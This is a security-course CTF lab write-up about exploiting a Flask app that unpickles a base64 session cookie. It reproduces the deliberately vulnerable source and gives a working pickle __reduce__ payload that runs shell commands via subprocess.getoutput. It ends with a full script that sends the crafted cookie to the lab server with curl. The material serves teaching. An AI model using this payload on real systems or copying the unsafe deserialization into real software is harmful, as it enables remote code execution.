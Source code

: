 ```yaml
---
title: Simple Web 0x16(Lab - Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Deserialization"
---
```


# Simple Web 0x16(Lab - Pickle)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8600/
Note: open a brand new window that haven't login `http://h4ck3r.quest`

## Background
[0x15.5(Pickle)](/IcoQql7UQiegLv8KtK2wOw)

## Source code
:::spoiler code
```pyton=
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```
:::

### Description & Analyze
In main function, it'll request session and parse it by `base64` then deserialize it.
If session is none, you can enter your name and age then it'll serialize the data and transfer by base64.
For example: name=123, age=123
The Cookie: session=`gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg==`
```python!
>>> pickle.loads(base64.b64decode('gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg=='))
{'name': '123', 'age': 123}
```

## Exploit
1. Construct exploit function
Note that the format must be `{'name': '', 'age': ''}`
2. Payload
    ```python!
    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls',))

    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    ```
    Note that, must not use `os.system` in this situation. 'Cause in addition to the result of `os.system('{command}')`, it'll return exit status code.
    > On Unix, the return value is the exit status of the process encoded in the format specified for wait(). Note that POSIX does not specify the meaning of the return value of the C system() function, so the return value of the Python function is system-dependent.

    So that if we use `os.system` as payload directly the output will not be render correctly.
    * For instance:
        ```python!
        class exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))


        serialized = pickle.dumps({
                "name": '123',
                "age": exploit()
                })
        optim_s = base64.b64encode(serialized)
        print(pickle.loads(base64.b64decode(optim_s)))
        ```
        ```bash!
        $ python pickle_exp.py
        exploit.py  pickle_exp.py  server_app.py
        {'name': '123', 'age': 0}
        ```
        or
        You can execute it in wsl directly.
        ![](https://i.imgur.com/7XrSWl6.png)
    So, you can use `subprocess.getoutput` to fetch the outcome without exit code
    ![](https://i.imgur.com/T8kvBel.png)
3. Whole exploit
    ```python=
    import pickle
    import os
    import pickletools
    import base64

    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls -al /',))


    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    optim_s = pickletools.optimize(serialized)

    cookie = base64.b64encode(optim_s).decode()

    os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
    ```

## Result
![](https://i.imgur.com/UoFhBVM.png)
